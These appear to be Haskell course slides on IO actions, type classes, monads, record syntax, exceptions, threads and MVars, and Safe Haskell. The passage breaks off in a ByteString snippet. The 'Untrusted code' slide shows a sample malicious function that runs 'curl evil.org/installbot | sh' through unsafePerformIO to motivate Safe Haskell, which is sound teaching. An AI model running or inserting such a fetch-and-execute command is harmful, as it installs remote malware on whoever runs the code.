* How to de-construct an `IO [String]` to get a `[String]`
    * We can't use `case`, because we don't have a constructor for
      `IO`... Besides, the order and number of deconstructions of
      something like `hPutStr` matters
    * That's the point of the `<-` operator in `do` blocks!

# Another way to see IO [[Peyton Jones]][Awkward]

~~~ {.haskell}
do name <- hGetLine h
   hPutStrLn h $ "Hi, " ++ name
~~~

* `hGetLine` and `hPutStrLn` return `IO` *actions* that can change the
  world
    * Pure code can manipulate such actions, but can't actually
      execute them
    * Only the special `main` action is ever executed

# Another way to see IO [[Peyton Jones]][Awkward]

~~~ {.haskell}
do name <- hGetLine h
   hPutStrLn h $ "Hi, " ++ name
~~~

* The `do` block builds a compound action from other actions
    * It sequences how actions will be applied to the real world
    * When executed, applies `IO a` actions to the world,
      extracting values of type `a`
    * What action to execute next can depend on the value of the
      extracted `a`

# Running `greet`

~~~~
$ ghc --make greet
[1 of 1] Compiling Main             ( greet.hs, greet.o )
Linking greet ...
$ ./greet
What is your name?
David
Hi, David
~~~~

* What if you want to run it in GHCI?

    ~~~~
$ ghci ./greet.hs
...
Prelude Main>
    ~~~~

    * No `*` before `Main` means no access to internal symbols (because
      compiled), need to say:

    ~~~~
Prelude Main> :load *greet.hs
[1 of 1] Compiling Main             ( greet.hs, interpreted )
Ok, modules loaded: Main.
*Main> 
    ~~~~

# The `return` function

* What if we want `greet` to return the name of the person?
    * Last action is `hPutStrLn :: IO ()`; want to end with
      action returning `name`
    * This does not work:

        ~~~ {.haskell}
        do ...
           hPutStrLn h $ "Hi, " ++ name
           name                         -- Incorrect, will not compile
        ~~~

    * Problem: every action in an `IO` do block must have type `IO a`
      for some `a`

    * Solution: `return` function creates a trivial `IO` action that returns
      a particular value

    ~~~ {.haskell}
    greet :: Handle -> IO String
    greet h = do
      hPutStrLn h "What is your name?"
      name <- hGetLine h
      hPutStrLn h $ "Hi, " ++ name
      return name
    ~~~

* Note:  **`return` is not control flow statement**, just a function

    ~~~~ {.haskell}
    return :: a -> IO a
    ~~~~

<!--
    * In a `do` block, "`let x = e`" is like "`x <- return e`" (except
      recursive)
-->

# Point-free IO composition

* Recall point-free function composition with "`.`" (fixity `infixr 9`)
* Function `>>=` (pronounced "bind") allows point-free IO composition

    ~~~~ {.haskell}
    (>>=) :: IO a -> (a -> IO b) -> IO b
    infixl 1 >>=
    ~~~~

* Let's re-write `greet` with point-free style to avoid variable `name`

    ~~~~ {.haskell}
    greet h = do
      hPutStrLn h "What is your name?"
      hGetLine h >>= hPutStrLn h . ("Hi, " ++)
    ~~~~

    * Note `>>=` composes left-to-right, while `.` goes right-to-left
* `do` blocks are just
  [syntactic sugar](http://www.haskell.org/onlinereport/haskell2010/haskellch3.html#x8-470003.14)
  for calling `>>=`.  Desugaring original `greet`:

    ~~~~ {.haskell}
    greet h = hPutStrLn h "What is your name?" >>= \_ ->
              hGetLine h >>= \name ->
              hPutStrLn h ("Hi, " ++ name)
    ~~~~

<!--
    * Let's de-sugar our original `main`:

    ~~~~ {.haskell}
    main =
        getArgs >>= \(url:_) ->
        simpleHttp url >>= \page ->
        putStr (L.toString page)
    ~~~~
-->

<!--
# Lazy IO

* Some simple file IO functions may be handy for first lab

    ~~~~ {.haskell}
    type FilePath = String -- makes FilePath synonym for String
    getContents :: IO String          -- read all stdin
    readFile :: FilePath -> IO String -- read (whole) file
    writeFile :: FilePath -> String -> IO ()  -- write file
    ~~~~

* E.g., `main = readFile "input" >>= writeFile "output"`
    * Surprisingly, this program does not require unbounded memory
    * Rather, input is read lazily as the list of Characters is
      evaluated
* How lazy IO works
    * A list has two values, the head and the tail, each possibly a
      thunk
    * At some point evaluating thunk actually triggers file IO
    * Function `unsafeInterleaveIO` creates thunks that execute `IO`
      actions
      (c.f. more widely used `unsafePerformIO`, described in
      [[Peyton Jones]][Awkward])
    * Lazy IO is great for scripts, bad for servers; more in Iteratee
      lecture
-->

# Exercise: Rock, Paper, Scissors against the computer

* Write a function to play a particular move against a user
    * First argument is computer's move
    * Read user's move from `Handle`
    * Tell user whether s/he won/lost/tied

    ~~~~ {.haskell}
    computerVsUser :: Move -> Handle -> IO ()
    ~~~~

* Example:

    ~~~~
    *Main> withTty $ computerVsUser Rock
    Please enter one of [Rock,Paper,Scissors]
    garbage
    Please enter one of [Rock,Paper,Scissors]
    Paper
    You Win
    *Main> withTty $ computerVsUser Scissors
    Please enter one of [Rock,Paper,Scissors]
    Paper
    You Lose
    ~~~~

# A possible solution

~~~ {.haskell}
getMove :: Handle -> IO Move
getMove h = do
  hPutStrLn h $ "Please enter one of " ++ show ([minBound..] :: [Move])
  input <- hGetLine h
  case parseMove input of Just move -> return move
                          Nothing -> getMove h

computerVsUser :: Move -> Handle -> IO ()
computerVsUser computerMove h = do
  userMove <- getMove h
  let o = outcome userMove computerMove
  hPutStrLn h $ "You " ++ show o
~~~

# More on polymorphism

* We've seen a bunch of polymorphic functions
* Here are some more handy ones from Prelude

~~~~ {.haskell}
id :: a -> a
id x = x
~~~~

~~~~ {.haskell}
const :: a -> b -> a
const a _ = a
~~~~

~~~~ {.haskell}
fst :: (a, b) -> a
fst (a, _) = a
~~~~

~~~~ {.haskell}
snd :: (a, b) -> b
snd (_, b) = b
~~~~

~~~~ {.haskell}
print a = putStrLn (show a)   -- what's the type?  a -> IO ()?
~~~~

~~~~ {.haskell}
show a = ???                  -- how to implement?
~~~~

# Parametric vs. ad hoc polymorphism

* There are actually *two* kinds of polymorphism at work here
* *parametric polymorphism* -- does the same thing for every type
    * E.g., `id :: a -> a`  just passes the value through
    * Works for every possible type
* *ad hoc polymorphism* -- does different things on different types
    * E.g., `1 + 1` and `1.0 + 1.0` compute very different functions
    * E.g., `show` converts value to `String`, depends entirely on input type
    * Only works on types that support it (hence "`deriving Show`" in
      declarations)

# Classes and Instances

* Ad-hoc polymorphic functions are called *methods* and declared with
  *classes*

    ~~~~ {.haskell}
    class MyShow a where
        myShow :: a -> String
    ~~~~

* The actual method for each type is defined in an *instance*
  declaration

    ~~~~ {.haskell}
    data Point = Point Double Double
    instance MyShow Point where
        myShow (Point x y) = "(" ++ show x ++ ", " ++ show y ++ ")"
    ~~~~

    * A class declaration can also include default definitions for
      methods

* What's the type of a function that calls `myShow`?  Ask GHCI:

    ~~~~ {.haskell}
    myPrint x = putStrLn $ myShow x
    ~~~~

    ~~~~
    *Main> :t myPrint
    myPrint :: MyShow a => a -> IO ()
    ~~~~

# The Context of a type declaration

* Type declarations can contain restrictions on type variables
    * Restrictions expressed with "`(`*class* *type-var*, ...`) =>`"
      at start of type, E.g.:

    ~~~~ {.haskell}
    myPrint :: MyShow a => a -> IO ()
    ~~~~

    ~~~~ {.haskell}
    sortAndShow :: (Ord a, MyShow a) => [a] -> String
    ~~~~

    ~~~~ {.haskell}
    elem :: (Eq a) => a -> [a] -> Bool
    elem _ []     = False
    elem x (y:ys) = x==y || elem x ys
    ~~~~

    ~~~~ {.haskell}
    add :: (Num a) => a -> a -> a
    add arg1 arg2 = arg1 + arg2
    ~~~~

* Can think of context as representing hidden *dictionary* arguments
    * When you call `myPrint`, you explicitly give it a value of type
      `a`
    * But also implicitly give it a function pointer for type `a`'s
      `MyShow` instance

# The [Dreaded][DMRWiki] [Monomorphism Restriction][DMR] (DMR)

* Let's say you want to cache result of super-expensive function

    ~~~~ {.haskell}
    superExpensive val = len $ veryExpensive (val :: Int)
        where len [] = 0
              len (x:xs) = 1 + len xs
    cachedResult = superExpensive 5
    ~~~~

    * `cachedResult` will start as thunk, be executed once, then
      contain value

* Let's think about the types

    ~~~~
    *Main> :t superExpensive
    superExpensive :: Num a => Int -> a
    *Main> :t cachedResult
    cachedResult :: Integer
    ~~~~

    * \+ and 0 are overloaded, so `superExpensive` can return any
      `Num` you want
    * Why don't we have `cachedResult :: (Num a) => a`?
    * Recall context restrictions are like hidden arguments... so
      would make `cachedResult` into a function, undermining our
      caching goal!
    * But how is compiler smart enough to save us here?

# The DMR continued

* Answer: in this case, compiler is not actually that smart
    * Heuristic: If it looks like a function, can infer *ad hoc*
      polymorphic types
    * If it looks like anything else, no *ad hoc* polymorphism unless
      explicitly declared
    * *parametric* polymorphic types can always be inferred (no hidden
      arguments)
* What looks like a function?
    * Has to bind a single symbol (`f`), rather than a pattern (`(x,
      y)`, `(Just x)`)
    * Has to have at least one explicit argument (`f x =` ... ok,
    `f =` ... not)
* How are monomorphic types inferred?
    * If bound symbol used elsewhere in module, infer type from use
    * If still ambiguous and type is of class `Num`, try `Integer`
      then `Double` (this sequence can be changed with a
      [`default` declaration][default])
    * If still ambiguous, compilation fails

# The DMR take-away message

* Think of type restrictions as implicit dictionary arguments
    * Compiler won't saddle non-function with implicit arguments
* This code will compile

    ~~~~ {.haskell}
    -- Compiler infers: show1 :: (Show x) => x -> String
    show1 x = show x
    ~~~~

* But neither of these will:

    ~~~~ {.haskell}
    show2 = show
    show3 = \x -> show x
    ~~~~

    * I'd rather you heard it from me than from GHC...

* Relatively easy to work around DMR
    * Add type signatures to functions--a good idea anyway for
      top-level bindings, and sometimes necessary for `let` bindings

        ~~~~ {.haskell}
        -- No problem, compiler knows you want ad hoc polymorphism
        show2 :: (Show x) => x -> String
        show2 = show
        ~~~~

# Superclasses and instance contexts

* One class may require all instances to be members of another
    * Class `Eq` contains '==' and '/=' methods, while
    `Ord` contains `<`, `>=`, `>`, `<=`, etc.
    * It doesn't make sense to have an `Ord` instance not also be an
      `Eq` instance
    * `Ord` declares `Eq` as a superclass, using a context

        ~~~~ {.haskell}
        class Eq a => Ord a where
            (<), (>=), (>), (<=) :: a -> a -> Bool
            a <= b = a == b || a < b -- default methods can use superclasses
            ....
        ~~~~

    * Don't need to write superclass restrictions in contexts--any
      function with an `Ord` dictionary can lookup the `Eq` dictionary
    * Incidentally, can add `deriving (Eq, Ord)` to `data`
      declarations
* Similarly, an instance may require a context
    * E.g., define `myShow` for a list of items whose type is of class
      `MyShow`

    ~~~~ {.haskell}
    instance (MyShow a) => MyShow [a] where
        myShow [] = "[]"
        myShow (x:xs) = myShow x ++ ":" ++ myShow xs
    ~~~~

# Classes of parameterized types

* Can also have classes of parameterized types
* `Functor` is a class for parameterized types onto which you can map
      functions:

    ~~~~ {.haskell}
    class Functor f where
        fmap :: (a -> b) -> f a -> f b
    ~~~~

    * Notice there are no arguments/results of type `f`, rather types
      `f a` and `f b`

* An example of a `Functor` is `Maybe`:

    ~~~~ {.haskell}
    instance Functor Maybe where
        fmap _ Nothing  = Nothing
        fmap f (Just a) = Just (f a)
    ~~~~

    ~~~~
    GHCi, version 7.6.3: http://www.haskell.org/ghc/  :? for help
    Prelude> fmap (+ 1) Nothing
    Nothing
    Prelude> fmap (+ 1) $ Just 2
    Just 3
    ~~~~

# More `Functor`s

* Lists are a `Functor`

    * `[]` can be used as a prefix type ("`[] Int`" means "`[Int]`")
      and can be used to declare instances

    ~~~~ {.haskell}
    map :: (a -> b) -> [a] -> [b]
    map _ []     = []
    map f (x:xs) = f x : map f xs

    instance Functor [] where
        fmap = map
    ~~~~

* `IO` is a `Functor`

    ~~~~ {.haskell}
    instance Functor IO where
        fmap f x = x >>= return . f
    ~~~~

    * So we could have said:

    ~~~~ {.haskell}
    greet h = do
      hPutStrLn h "What is your name?"
      fmap ("Hi, " ++) (hGetLine h) >>= hPutStrLn h
    ~~~~

<!--
        ~~~~ {.haskell}
	simpleHttpStr url = fmap L.toString $ simpleHttp url
        ~~~~

        or, simpler still:

        ~~~~ {.haskell}
	simpleHttpStr = fmap L.toString . simpleHttp
        ~~~~
-->

# Kinds

* What happens if you try to make an instance of `Functor` for `Int`?

    ~~~~ {.haskell}
    instance Functor Int where         -- compilation error
        fmap _ _ = error "placeholder"
    ~~~~

    * Get `fmap :: (a -> b) -> Int a -> Int b`, but `Int` not
    parameterized
* The compiler must keep track of all the different kinds of types
    * One kind of type (e.g., `Int`, `Double`, `()`) directly
      describes values
    * Another kind of type (`Maybe`, `[]`, `IO`) requires a type
      parameter
    * Yet another kind of type (`Either`, `(,)`), requires *two
      parameters*
    * Parameterized types are sometimes called *type constructors*
* Kinds named using symbols &#x2217; and &#x2192;, much like curried
  functions
    * &#x2217; is the kind of type that represents values (`Int`,
      `Double`, `()`, etc.)
    * &#x2217; &#x2192; &#x2217; is the kind of type with one
      parameter of type &#x2217; (`Maybe`, `IO`, etc.)
    * &#x2217; &#x2192; &#x2217; &#x2192; &#x2217; is a type
      constructor with two arguments of kind &#x2217; (`Either`)
    * In general, *a* &#x2192; *b* means a type constructor that,
      applied to kind *a*, yields kind *b*

# The `Monad` class

* **This is the most important slide so far!**
* `return` and `>>=` are actually methods of a class called `Monad`

~~~~ {.haskell}
class Monad m where
    (>>=) :: m a -> (a -> m b) -> m b
    return :: a -> m a
    fail :: String -> m a   -- called when pattern binding fails
    fail s = error s        -- default is to throw exception

    (>>) :: m a -> m b -> m b
    m >> k = m >>= \_ -> k
~~~~

* This has far-reaching consequences
    * You can use the syntactic sugar of `do` blocks for non-IO
      purposes
    * Many monadic functions are polymorphic in the `Monad`--invent a
      new monad, and you can still use much existing code

# The `Maybe` monad

* System libraries define a `Monad` instance for `Maybe`

    ~~~~ {.haskell}
    instance  Monad Maybe  where
        (Just x) >>= k = k x
        Nothing >>= _  = Nothing
        return = Just
        fail _ = Nothing
    ~~~~

* You can use `Nothing` to indicate failure
    * Might have a bunch of functions to extract fields from data

    ~~~~ {.haskell}
    extractA :: String -> Maybe Int
    extractB :: String -> Maybe String
    ...
    parseForm :: String -> Maybe Form
    parseForm raw = do
        a <- extractA raw
        b <- extractB raw
        ...
        return (Form a b ...)
    ~~~~

    * Threads success/failure state through system as `IO` threaded
      World
    * Since Haskell is lazy, stops computing at first `Nothing`

# Algebraic data types

* Some data types have a large number of fields

    ~~~~ {.haskell}
    -- Argument to createProcess function
    data CreateProcess = CreateProcess CmdSpec (Maybe FilePath)
        (Maybe [(String,String)]) StdStream StdStream StdStream Bool
    ~~~~

    * Quickly gets rather unwieldy

* Algebraic data types let you label fields (like C `struct`s)

    ~~~~ {.haskell}
    data CreateProcess = CreateProcess {
      cmdspec   :: CmdSpec,
      cwd       :: Maybe FilePath,
      env       :: Maybe [(String,String)],
      std_in    :: StdStream,
      std_out   :: StdStream,
      std_err   :: StdStream,
      close_fds :: Bool
    }
    ~~~~

* Let's make an algebraic version of our `Point` class

    ~~~~ {.haskell}
    data Point = Point { xCoord :: Double, yCoord :: Double }
    ~~~~

# Algebraic types - initialization and matching

~~~~ {.haskell}
data Point = Point { xCoord :: Double, yCoord :: Double }
~~~~

* Can initialize an Algebraic type by naming fields

    ~~~~ {.haskell}
    myPoint = Point { xCoord = 1.0, yCoord = 1.0 }
    ~~~~

    * Uninitialized fields get value `undefined` - a thunk that throws
      an exception

* Can also pattern-match on any subset of fields

    ~~~~ {.haskell}
    -- Note the pattern binding assigns the variable on the right of =
    getX Point{ xCoord = x } = x
    ~~~~

    * [*As-patterns*](http://www.haskell.org/onlinereport/haskell2010/haskellch3.html#x8-590003.17.1)
      are handy to bind a variable and pattern simultaneously (with
      `@`):

        ~~~~ {.haskell}
	getX' p@Point{ xCoord = x }
                | x < 100 = x
                | otherwise = error $ show p ++ " out of range"
        ~~~~

        ~~~~ {.haskell}
        -- Also works with non-algebraic patterns
	getX' p@(Point x _) = ...
	processString s@('$':_) = ...
	processString s         = ...
        ~~~~

# Algebraic types - access and update

* Can use field labels as access functions

    ~~~~ {.haskell}
    getX point = xCoord point
    ~~~~

    * `xCoord` works anywhere you can use a function of type
      `Point -> Double`
    * One consequence: field labels share the same namespace as
      top-level bindings, and must be unique

* There is a special syntax for updating one or more fields

    ~~~~ {.haskell}
    setX point x = point { xCoord = x }
    setXY point x y = point { xCoord = x, yCoord = y }
    ~~~~

    * Obviously doesn't update destructively, but returns new,
      modified `Point`

    * Very handy to maintain state in tail recursive functions and
      `Monads`

# A few Miscellaneous points

* A `!` before a data field type makes it *strict* - i.e., can't be
  thunk

    ~~~~ {.haskell}
    data State = State !Int Int

    data AlgState = AlgState { accumulator :: !Int
                             , otherValue :: Int }
    ~~~~

    * In both cases above, the first `Int` cannot hold a thunk, but
      only a value

    * When initializing an algebraic datatype, it is mandatory to
      initialize all strict fields (since they cannot hold the
      `undefined` thunk).

<!--
* [`Data.Map`](http://hackage.haskell.org/packages/archive/containers/latest/doc/html/Data-Map.html) 
maintains efficient, functional lookup tables
    * The tables cannot be mutated, but can be updated and used in
      recursive functions

* [`words`](http://hackage.haskell.org/packages/archive/base/latest/doc/html/Data-List.html#v:words)
  breaks a `String` up into a list of whitespace-separated words
-->

# Networking

* High-level Stream (TCP & Unix-domain) socket support in [`Network`]

    ~~~~ {.haskell}
    connectTo :: HostName -> PortID -> IO Handle
    listenOn :: PortID -> IO Socket
    accept :: Socket -> (Handle, HostName, PortNumber)
    sClose :: Socket -> IO ()
    ~~~~

* Low-level BSD socket functions in [`Network.Socket`]

    ~~~~ {.haskell}
    socket :: Family -> SocketType -> ProtocolNumber -> IO Socket
    connect :: Socket -> SockAddr -> IO ()
    bindSocket :: Socket -> SockAddr -> IO ()
    listen :: Socket -> Int -> IO ()
    accept :: Socket -> IO (Socket, SockAddr)  -- not same accept as above
    ~~~~

    * [`getAddrInfo`](http://hackage.haskell.org/packages/archive/network/latest/doc/html/Network-Socket.html#v:getAddrInfo)
looks up hostnames just like [[RFC3493]][RFC3493] (returns 
      `[`[`AddrInfo`](http://hackage.haskell.org/packages/archive/network/latest/doc/html/Network-Socket.html#t:AddrInfo)`]`)

    * We'll stick to the higher-level functions today

# Networking example

* Instead of `withTty`, let's define `withClient` that uses TCP:

    ~~~ {.haskell}
    withClient :: PortID -> (Handle -> IO a) -> IO a
    withClient listenPort fn = do
      s <- listenOn listenPort
      (h, host, port) <- accept s
      putStrLn $ "Connection from host " ++ host ++ " port " ++ show port
      sClose s  -- Only accept one client
      a <- fn h
      hClose h
      return a
    ~~~

* Try it like this:

    ~~~
    *Main> withClient (PortNumber 1617) (computerVsUser Rock)
    ~~~

    ~~~
    $ nc localhost 1617
    Please enter one of [Rock,Paper,Scissors]
    Rock
    You Tie
    ~~~

# Exceptions

* A few functions "return" any type

    ~~~~ {.haskell}
    undefined :: a
    error :: String -> a
    ~~~~

    * Return type can be arbitrary because function doesn't actually
      return

* These functions throw *language-level* exceptions

    * To use exceptions directly, import [`Control.Exception`] as
      follows:

    ~~~~ {.haskell}
    import Control.Exception
    ~~~~

    * [`Control.Exception`] gives you access to the following
      symbols:

    ~~~~ {.haskell}
    class (Typeable e, Show e) => Exception e where ...
    throw :: Exception e => e -> a
    throwIO :: Exception e => e -> IO a
    catch   :: Exception e => IO a -> (e -> IO a) -> IO a
    ~~~~

# Simple example

~~~~ {.haskell}
{-# LANGUAGE DeriveDataTypeable #-}

import Control.Exception
import Data.Typeable

data MyError = MyError String deriving (Show, Typeable)
instance Exception MyError

catcher :: IO a -> IO (Maybe a)
catcher action = fmap Just action `catch` handler
    where handler (MyError msg) = do putStrLn msg; return Nothing
~~~~

~~~~
*Main> catcher $ readFile "/dev/null"
Just ""
*Main> catcher $ throwIO $ MyError "something bad"
something bad
Nothing
~~~~

* Need `DeriveDataTypeable` language pragma (later lecture)
* `handler`'s type cannot be inferred (use constructor or type
  signature)
    * Constructor pattern `e@(SomeException _)` catches all exceptions

# Exceptions in pure code

* Previous example wrapped `catcher` around an IO action
* Can `throw` exceptions in pure code, yet `catch` them only in `IO`
    * This is because evaluation order depends on implementation
    * Which error is thrown by `(error "one") + (error "two")`? 
      Can be non-deterministic, which is [okay][imprecise exceptions]
      if `catch` is restricted to the `IO` Monad
* In `IO`, use `throwIO` (not `throw`) to make exception sequencing
  precise

    ~~~~ {.haskell}
        do x <- throwIO (MyError "one")  -- this exception thrown
           y <- throwIO (MyError "two")  -- this code not reached
    ~~~~

* Beware `catch` only catches exceptions if code actually evaluated

    ~~~~ {.haskell}
    pureCatcher :: a -> IO (Maybe a)
    pureCatcher a = (a `seq` return (Just a))
                    `catch` \(SomeException _) -> return Nothing
    ~~~~

    ~~~~
    *Main> pureCatcher (undefined :: String)
    Nothing
    *Main> pureCatcher (undefined:undefined :: String)
    Just "*** Exception: Prelude.undefined
    ~~~~

# A few more exception functions

* `try` returns `Right a` normally, `Left e` if an exception occurred

    ~~~~ {.haskell}
    try :: Exception e => IO a -> IO (Either e a)
    ~~~~

* `finally` and `onException` run a clean-up action

    ~~~~ {.haskell}
    finally :: IO a -> IO b -> IO a      -- cleanup always
    onException :: IO a -> IO b -> IO a  -- after exception
    flip :: (a -> b -> c) -> b -> a -> c -- flips order of args
    ~~~~

    * Result of cleanup action (`b`) is discarded

* `bracket` brackets code with initialization and cleanup

    ~~~~ {.haskell}
    bracket :: IO a -> (a -> IO b) -> (a -> IO c) -> IO c
    --        ^init^   ^^cleanup^^    ^^action^^^
    ~~~~

    * Example

    ~~~~ {.haskell}
    sayhi :: IO ()
    sayhi = bracket (connectTo "localhost" $ PortNumber 1234)
                    hClose $ \h -> do
      hPutStrLn h "hello"
    ~~~~

<!--
* `catchJust` catches only exceptions matching a predicate on value

    ~~~~ {.haskell}
    catchJust :: Exception e =>
                 (e -> Maybe b) -> IO a -> (b -> IO a) -> IO a

    readFileIfExists f = catchJust p (readFile f) (\_ -> return "")
      where p e = if isDoesNotExistError e then Just e else Nothing
    ~~~~

    ~~~~
    *Main> readFileIfExists "/nosuchfile"
    ""
    *Main> readFileIfExists "/etc/shadow"
    *** Exception: /etc/shadow: openFile: permission denied ...
    ~~~~
-->

# Haskell threads

* Haskell implements user-level threads in [`Control.Concurrent`]

    * Threads are lightweight (in both time and space)
    * Use threads where in other languages would use cheaper constructs
    * Runtime emulates blocking OS calls in terms of non-blocking ones
    * Thread-switch can happen any time GC could be invoked

* `forkIO` call creates a new thread:

    ~~~~ {.haskell}
    forkIO :: IO () -> IO ThreadId    -- creates a new thread
    ~~~~

* Can also get your own thread ID:

    ~~~~ {.haskell}
    myThreadId :: IO ThreadId
    ~~~~

# Exercise:  Multi-user Rock, Paper, Scissors

* Create a function `withClients` that accepts multiple connections
    * Should run function once for each user in parallel (with threads)
    * Should allow concurrent games of Rock, Paper, Scissors as
      follows

    ~~~~
    *Main> withClients (PortNumber 1617) (computerVsUser Rock)
    ~~~~

    * Connect from multiple terminals in parallel to test that you are
      actually concurrent

    ~~~~
    $ nc localhost 1617
    Please enter one of [Rock,Paper,Scissors]
    Rock
    You Tie
    ~~~~

    * Note, this isn't a very interesting game yet, since the computer
      always plays the same move.

# Solution

~~~~ {.haskell}
withClients :: PortID -> (Handle -> IO ()) -> IO ()
withClients listenPort fn =
  bracket (listenOn listenPort) sClose $ \s ->
  let loop = do
        (h, host, port) <- accept s
        putStrLn $ "Connection from host " ++ host ++
                   " port " ++ show port
        forkIO $ fn h `finally` hClose h
        loop
  in loop
~~~~

# [`MVar`s][`MVar`]

* The [`MVar`] type lets threads communicate via shared variables

    * An `MVar t` is a mutable variable of type `t` that is either
      *full* or *empty*

    ~~~~ {.haskell}
    newEmptyMVar :: IO (MVar a)  -- create empty MVar
    newMVar :: a -> IO (MVar a)  -- create full MVar given val

    takeMVar :: MVar a -> IO a
    putMVar :: MVar a -> a -> IO ()
    ~~~~

    * If an `MVar` is full, `takeMVar` makes it empty and returns
      former contents
    * If an `MVar` is empty, `putMVar` fills it with a value
    * Taking an empty `MVar` or putting a full one puts thread to
      sleep until `MVar` becomes available
    * Only one thread awakened at a time if several blocked on same
      `MVar`
    * There are also non-blocking versions of `MVar` calls

    ~~~~ {.haskell}
    tryTakeMVar :: MVar a -> IO (Maybe a) -- Nothing if empty
    tryPutMVar :: MVar a -> a -> IO Bool  -- False if full
    ~~~~

# MVar helper functions

* Many helper functions implemented in terms of `takeMVar`/`putMVar`

    * For modifying `MVar`s:

    ~~~ {.haskell}
    withMVar :: MVar a -> (a -> IO b) -> IO b
    modifyMVar_ :: MVar a -> (a -> IO a) -> IO ()
    modifyMVar :: MVar a -> (a -> IO (a, b)) -> IO b
    ~~~ 

* Other useful functions, but note they are not atomic!

    ~~~ {.haskell}
    readMVar :: MVar a -> IO a
    swapMVar :: MVar a -> a -> IO a
    ~~~

# Working with `MVar`s

* `MVar`s work just fine as a mutex:

    ~~~~ {.haskell}
    type Mutex = MVar ()

    mutex_create :: IO Mutex
    mutex_create = newMVar ()

    mutex_lock, mutex_unlock :: Mutex -> IO ()
    mutex_lock = takeMVar
    mutex_unlock mv = putMVar mv ()

    mutex_synchronize :: Mutex -> IO a -> IO a
    mutex_synchronize mv action =
        bracket (mutex_lock mv) (\_ -> mutex_unlock mv)
                    (\_ -> action)
    ~~~~

* Note anyone can unlock a `Mutex` if it is locked
    * How would you throw assertion failure if caller doesn't hold lock?

# Alternate `Mutex`

* Use *full* `MVar` rather than empty to mean lock held

    ~~~~ {.haskell}
    type Mutex = MVar ThreadId

    mutex_create :: IO Mutex
    mutex_create = newEmptyMVar

    mutex_lock, mutex_unlock :: Mutex -> IO ()

    mutex_lock mv = myThreadId >>= putMVar mv

    mutex_unlock mv = do mytid <- myThreadId
                         lockTid <- tryTakeMVar mv
                         unless (lockTid == Just mytid) $
                             error "mutex_unlock"
    ~~~~

    * Store `ThreadId` of lock owner in `MVar`

* How would you implement a condition variable?

# Condition variables

~~~~ {.haskell}
data Cond = Cond Mutex (MVar [MVar ()])

cond_create :: Mutex -> IO Cond
cond_create m = do
  waiters <- newMVar []
  return $ Cond m waiters

cond_wait, cond_signal, cond_broadcast :: Cond -> IO ()
cond_wait (Cond m waiters) = do
  me <- newEmptyMVar
  modifyMVar_ waiters $ \others -> return $ others ++ [me]
  mutex_unlock m
  takeMVar me `finally` mutex_lock m
  
cond_signal (Cond _ waiters) = modifyMVar_ waiters wakeone
    where wakeone [] = return []
          wakeone (w:ws) = putMVar w () >> return ws

cond_broadcast (Cond _ waiters) = modifyMVar_ waiters wakeall
    where wakeall ws = mapM_ (flip putMVar ()) ws >> return []
~~~~

* Key idea: putting `MVar`s inside `MVar`s is very powerful

# Exercise: Multi-player Rock, Paper, Scissors

* Allow multiple players to connect to server
    * Pair each two consecutive connections in a Rock, Paper, Scissors game  
      (Don't use `computerVsUser` any more)
* New function:  `twoPlayerRock :: PortID -> IO ()`

~~~~
*Main> twoPlayerRock (PortNumber 1617)
~~~~

~~~~
$ nc localhost 1617
Waiting for your opponent to connect...
Playing against localhost.localdomain:46271
Please enter one of [Rock,Paper,Scissors]
Scissors
You Lose
~~~~

~~~~
$ nc localhost 1617
Playing against localhost.localdomain:46270
Please enter one of [Rock,Paper,Scissors]
Rock
You Win
~~~~

# Solution

~~~~ {.haskell}
play :: Handle -> MVar Move -> String -> MVar Move -> IO ()
play h self otherName other = do
  myMove <- flip onException (putMVar self $ error "dead") $ do
    hPutStrLn h $ "Playing against " ++ otherName
    getMove h
  putMVar self myMove
  otherMove <- readMVar other
  hPutStrLn h $ "You " ++ show (outcome myMove otherMove)

twoPlayerRock :: PortID -> IO ()
twoPlayerRock listenPort =
  bracket (IO.listenOn listenPort) sClose $ \s ->
  let loop = do
        (h1, host1, port1) <- IO.accept s
        hPutStrLn h1 "Waiting for your opponent to connect..."
            `catch` \(SomeException _) -> return ()
        let name1 = host1 ++ ":" ++ show port1
        (h2, host2, port2) <- IO.accept s
        let name2 = host2 ++ ":" ++ show port2
        mv1 <- newEmptyMVar
        mv2 <- newEmptyMVar
        forkIO $ play h1 mv1 name2 mv2 `finally` hClose h1
        forkIO $ play h2 mv2 name1 mv1 `finally` hClose h2
        loop
  in loop
~~~~

<!--
# Channels

* [`Control.Concurrent.Chan`] provides unbounded *channels*
    * Implemented as two `MVar`s -- for read and and write end of `Stream`

    ~~~~ {.haskell}
    data Item a = Item a (Stream a)
    type Stream a = MVar (Item a)
    data Chan a = Chan (MVar (Stream a)) (MVar (Stream a))
    ~~~~

# Channel implementation [simplified]

~~~~ {.haskell}
data Item a = Item a (Stream a)
type Stream a = MVar (Item a)
data Chan a = Chan (MVar (Stream a)) (MVar (Stream a))

newChan :: IO (Chan a)
newChan = do
  empty <- newEmptyMVar
  liftM2 Chan (newMVar empty) (newMVar empty)

writeChan :: Chan a -> a -> IO ()
writeChan (Chan _ w) a = do
  empty <- newEmptyMVar
  modifyMVar_ w $ \oldEmpty -> do
    putMVar oldEmpty (Item a empty)
    return empty

readChan :: Chan a -> IO a
readChan (Chan r _) =
    modifyMVar r $ \full -> do
      (Item a newFull) <- takeMVar full
      return (newFull, a)
~~~~
-->

# Untrusted code

* Say you want to incorporate untrusted code in a Haskell application
* Example:  Some third-party translation software
    * You built a web server
    * Want to add a "translate to Pig Latin" button to each web page
    * Download some random code with this function

        ~~~~ {.haskell}
        toPigLatin :: L.ByteString -> L.ByteString
        ~~~~

* If you could trust the type (no `IO`), this would be safe to run
    * Worst case, users get garbled text on web page
* However, what if you have?

    ~~~~ {.haskell}
    toPigLatin = unsafePerformIO $ do
      system "curl evil.org/installbot | sh"
      return "Ia owna ouya"
    ~~~~

# [Safe Haskell][SafeHaskell]

* Starting with GHC 7.2, `-XSafe` option enables
  [Safe Haskell][SafeHaskell]
* Safe Haskell disallows import of any unsafe modules
    * E.g., can't import `System.IO.Unsafe`, so can't call `unsafePerformIO`
* Safe imports (enabled by `-XSafeImports`) require an import to be safe

    ~~~~ {.haskell}
    import safe PigLatin (toPigLatin)
    ~~~~

    * The above should guarantee that `toPigLatin` doesn't call unsafe
      functions
* But wait... doesn't `toPigLatin` use ByteString?

    ~~~~ {.haskell}
    head :: {- Lazy -} ByteString -> Word8
    head Empty       = errorEmptyList "head"
    head (Chunk c _) = S.unsafeHead c

    unsafeHead :: {- Strict -} ByteString -> Word8
    unsafeHead (PS x s l) = assert (l > 0) $
        inlinePerformIO $ withForeignPtr x $ \p -> peekByteOff p s
